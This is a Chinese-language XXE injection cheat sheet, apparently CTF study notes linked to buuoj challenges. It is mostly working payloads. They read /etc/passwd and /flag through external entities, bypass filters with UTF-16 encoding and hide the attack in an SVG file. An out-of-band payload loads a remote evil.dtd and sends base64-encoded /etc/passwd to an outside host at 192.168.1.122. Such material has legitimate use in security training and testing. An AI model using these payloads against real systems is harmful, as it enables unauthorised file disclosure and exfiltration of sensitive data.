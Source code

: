 [[toc]]
# XXE/XML实体注入

1. 修改 Content-Type:application/xml
2. GET -> POST

绕过 -- XXE编码转换成utf-16编码绕过
```
iconv -f utf8 -t utf-16 2.xml>1.xml
```

[初识XXE漏洞](https://blog.csdn.net/weixin_39997829/article/details/79654861) 抓包看是否解析了xml内容, 如果可控。可能存在xxe

## 格式
```xml
<!ENTITY % 实体名称 "实体的值"> 
<!ENTITY % 实体名称 SYSTEM "URI/URL">
```

下面的xxe要和上面的对应
```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<user><username>&xxe;</username><password>a</password></user>
```
## 引入代码1
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```
注意上admin前有&


```xml
<?xml version="1.0" ?>
<!DOCTYPE fumo [
<!ENTITY a SYSTEM "file:///flag" >
]>
<fumo><web>&a;
</web></fumo>
```

## 引入代码2
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://10.164.75.2">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```

## 引入代码3
```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY % d SYSTEM "http://10.164.75.2/evil.dtd">
]>
<c>&b;<c>
```
evil.dtd内容
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

## 引入代码3-1

```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://10.164.75.2/evil.dtd">
<c>&b;<c>
```
evil.dtd内容
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
## 引入代码4 - 数据不回显时,发送到远程服务器
```php
<?php
$xml=EOF
<?xml version="1.0"?>
<!DOCTYPE ANY [
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % dtd SYSTEM "http://192.168.1.122/evil.dtd">
%dtd;
%send;
]>
EOF;
$data = simplexml_load_string($xml);
#print_r($data);
```
远程 evil.dtd
```xml
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://192.168.1.122/?%file;'>"
>
%all;
```
## svg xxe

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="640px" height="480px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
## 实例

https://www.hetianlab.com/cour.do?w=1&c=CCID2d51-5e95-4c58-8fc9-13b1659c1356

buuoj [NCTF2019]Fake XML cookbook

buuoj [NCTF2019]True XML cookbook